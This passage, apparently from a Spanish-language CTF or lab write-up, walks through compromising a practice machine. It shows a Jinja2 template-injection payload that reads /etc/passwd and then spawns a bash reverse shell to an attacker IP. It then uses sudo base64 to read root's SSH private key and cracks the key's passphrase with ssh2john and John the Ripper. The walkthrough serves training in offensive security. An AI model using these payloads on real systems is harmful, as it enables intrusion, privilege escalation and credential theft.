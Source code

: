 Tratamos de enumerar directorios interesantes como puede ser /etc/passwd con el siguiente script:

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat /etc/passwd').read()}}
```

Analizando el código fuente:

![image](https://github.com/danielhidalgo2/images/assets/60622651/0632905a-33f6-42e9-94ca-efad809b2326)

Como comprobamos el payload funciona perfectamente mostrándonos posibles usuarios. 
Aprovechamos el mismo payload para tratar de entablarnos el típico one-liner para una reverse shell.

```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/443 0>&1\'').read()}}
```


![image](https://github.com/danielhidalgo2/images/assets/60622651/8d0be610-f815-4e59-b575-986ed33f2a4c)

Poniéndonos en escucha con netcat obtenemos nuestra reverse shell :D 

## ESCALADA DE PRIVILEGIOS

Probamos sudo -l para ver si podemos algún binario como root y en efecto hay un binario de base64

![image](https://github.com/danielhidalgo2/images/assets/60622651/08760537-88b0-436d-9857-2df0a141d026)

Tras una breve búsqueda en  [GTFOBins](https://gtfobins.github.io/) vemos como podemos aprovecharnos de este binario:

```
sudo base64 /root/.ssh/id_rsa | base64 --decode
```

Si recordamos el puerto 22 estaba abierto, entonces tratamos de leer el id_rsa de root para poder loggearnos.

![image](https://github.com/danielhidalgo2/images/assets/60622651/adcaf2dc-4b87-4520-9a65-a982ce62af56)

Nos copiamos este id_rsa en nuestra máquina atacante, y con ssh2john sacamos el hash de esta clave.

```
ssh2john id_rsa > hash
```

Por último con John The Ripper y el clásico rockyou crackeamos el passphrase de la clave.

```
john hash --wordlist=/usr/share/wordlist/rockyou.txt
```

Nos mostrará lo siguiente:

```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
honda1           (id_rsa)     
1g 0:00:01:23 DONE (2024-05-23 15:15) 0.01197g/s 42.52p/s 42.52c/s 42.52C/s cougar..01234
Use the "--show" option 
```
